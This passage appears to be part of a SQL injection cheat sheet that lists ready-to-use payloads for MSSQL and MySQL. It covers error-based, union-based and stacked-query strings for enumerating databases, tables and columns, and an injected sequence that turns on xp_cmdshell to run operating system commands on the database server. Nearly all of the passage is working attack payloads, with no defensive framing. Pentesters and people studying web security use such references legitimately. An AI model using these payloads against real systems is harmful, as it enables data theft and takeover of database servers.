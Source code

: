 #### List columns:
- Normal
    - `select COLUMN_NAME, DATA_TYPE from app.information_schema.columns where TABLE_NAME = 'menu';`
- Error based
    - `cast((SELECT+column_name+FROM+exercise.information_schema.columns+where+table_name+%3d+'secrets'+ORDER+BY+name+OFFSET+0+ROWS+FETCH+NEXT+1+ROWS+ONLY)+as+integer)`
- Union Based
    - `' UNION SELECT COLUMN_NAME, NULL FROM information_schema.columns WHERE TABLE_NAME = 'table_name' --`
- Stacked Queries:
    - `; SELECT COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'table_name'; --`

### Command Execution:
- Normal
    - To use `xp_cmdshell` for command execution, it first needs to be enabled by a user with administrative privileges:
      ```sql
      EXEC sp_configure 'show advanced options', 1;
      RECONFIGURE;
      EXEC sp_configure 'xp_cmdshell', 1;
      RECONFIGURE;
      ```
    - After enabling, you can execute system commands like so:
      ```sql
      EXEC xp_cmdshell 'your_command_here';
      ```
- SQLi
    - Just like before, you will need to enable the privs first, sometimes they may be enabled by default:
        ```sql
        '; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; -- ```
    - `'; EXEC xp_cmdshell 'your_command_here'; --`

## MYSQL

### List databases:
- Normal
    - `SHOW DATABASES;`
- Error based 32 character limit
    - `'  EXTRACTVALUE(0x0a,CONCAT(0x0a,(SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 1)))--` 
- Union Based
    - `' UNION SELECT schema_name, NULL FROM information_schema.schemata --`
- Stacked Queries:
    - `; SHOW DATABASES; --`

### List Tables:
- Normal
    - `SHOW TABLES;`
- Error based
    - `'  EXTRACTVALUE(0x0a,CONCAT(0x0a,(SELECT table_name FROM information_schema.tables WHERE table_schema = 'database_name' LIMIT 1 OFFSET 1)))--`
- Union Based
    - `' UNION SELECT TABLE_NAME, NULL FROM information_schema.tables WHERE table_schema = 'database_name' --`
- Stacked Queries:
    - `; SHOW TABLES; --`
